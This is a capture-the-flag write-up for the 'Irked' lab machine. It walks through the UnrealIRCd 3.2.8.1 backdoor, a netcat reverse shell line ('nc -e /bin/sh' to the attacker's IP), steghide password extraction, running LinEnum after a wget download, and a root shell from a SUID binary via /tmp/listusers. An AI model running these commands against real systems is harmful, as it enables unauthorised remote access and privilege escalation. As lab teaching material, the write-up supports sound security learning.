 # Irked

![image](https://user-images.githubusercontent.com/10210108/79370935-83cb2b80-7f21-11ea-8294-37f5d3dd9c72.png)

## Overview

Irked is a Debian 8.10 box running a webserver and the UnrealIRCd internet relay chat server.  UnrealIRCd 3.2.8.1 contains a backdoor that allows the execution of any command with the privileges of the user running ircd. I was able to use the backdoor to create a reverse shell to get intial foothold. After some enumeration a file was found in the home folder of djmardov that provided the password for a steg file. The referenced steg file ended up being the image on the main website. Steghide was used to extract the password which allowed for login via ssh with user djmardov. LinEnum was used to do additional enumeration and showed an unusual application with SUID set. The application was exploited to get a root shell.

## Enumeration

**Software**
 
 * Debian GNU/Linux 8.10 (jessie)
 * UnrealIRCd 3.2.8.1

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.117 -oN /mnt/data/boxes/irked/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp -  http
* 111/tcp - rpcbind
* 6697/tcp - UnrealIRCd
* 8067/tcp - UnrealIRCd
* 38875/tcp - status (RPC #100024)
* 65534/tcp - irc

## Steps (user)

Browsing to http://10.10.10.117 shows an image with text "IRC is almost working!"

![image](https://user-images.githubusercontent.com/10210108/82152134-524dc480-982d-11ea-9676-1990c9add2c3.png)

Running a search for "UnrealIRCd" in searchsploit returned a few results for version 3.2.8.1.

![image](https://user-images.githubusercontent.com/10210108/82152534-de60eb80-982f-11ea-834e-5e36a0141f7b.png)

I was able to confirm that the version on the target box was the affected version by connecting to port 6697 via netcat.

```
nc 10.10.10.117 6697
NICK test123
USER test123 test123 10.10.10.117 :realname
```

![image](https://user-images.githubusercontent.com/10210108/82152492-90e47e80-982f-11ea-98ce-81dd29635344.png)

I reviewed the code for "Backdoor Command Execution (Metasploit)" and the exploit was pretty straight forward. The format is _AB; + command + \n_. I set up a netcat lisener (nc -lvnp 4200) and sent a command to create a reverse shell.

```
AB;nc -e /bin/sh 10.10.14.5 4200 \n
```

![image](https://user-images.githubusercontent.com/10210108/82153275-6b0da880-9834-11ea-8818-9d790299db6c.png)

Enumerating the filesystem I came across a file in /home/djmardov/Documents/ called ".backup". Viewing the contents of this file shows the steg backup password 'UPupDOWNdownLRlrBAbaSSss'

> Note: I was not able to view the user.txt file with the user 'irked'.

![image](https://user-images.githubusercontent.com/10210108/82153461-8e852300-9835-11ea-9036-f7c37863b0f5.png)

"Steg" or steganography allows for concealing a file, message, image, or video within another file, message, image, or video. I decided first to see if there was anything hidden in the image on the main site.

```
wget http://10.10.10.117/irked.jpg
```

I used a tool called steghide to determine if there was anything hidden in the file and there was.

```
steghide info irked.jpg
```

![image](https://user-images.githubusercontent.com/10210108/82153596-5af6c880-9836-11ea-866c-ccbc5cd07b99.png)

I then ran a command to extract pass.txt, the contents of which showed what looked like a password (Kab6h+m+bbp2J:HG).

```
steghide extract -sf irked.jpg
```

![image](https://user-images.githubusercontent.com/10210108/82153797-b1b0d200-9837-11ea-811e-933d2422a4ab.png)

I tried to log in via ssh with user djmardov with the password and was successful.

![image](https://user-images.githubusercontent.com/10210108/82153835-f6d50400-9837-11ea-97c9-9f695617dcc8.png)

## Steps (root/system)

I used a tool called [LinEnum](https://github.com/rebootuser/LinEnum) to do some additional enumeration on the machine.

I copied the script to my local working directory and started a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server
```

On the target I used wget to download the file and then ran it.

```
wget http://10.10.14.5/le.sh
chmod +x ./le.sh && ./le.sh 
```

Reviewing the results I noticed an unusual file (/usr/bin/viewuser) with the SUID (SetUID) permission set.

![image](https://user-images.githubusercontent.com/10210108/82154212-503e3280-983a-11ea-9fb0-3277ae870061.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Running the viewuser command indicates that this is an application that is being developed to set and test user permissions and is still under active development. There is also an error "/tmp/listusers": not found.

![image](https://user-images.githubusercontent.com/10210108/82154425-d8710780-983b-11ea-9db0-dfc91ca4a5db.png)

I was able to create the /tmp/listusers file the app was looking for, and use it to spawn a shell. Because the viewusers command is running as root, I was able to get a shell as root.

```
echo '/bin/bash' > /tmp/listusers
chmod +x /tmp/listusers
/usr/bin/viewuser
```

![image](https://user-images.githubusercontent.com/10210108/82154569-c6dc2f80-983c-11ea-8cfe-ba8f4aba1bef.png)
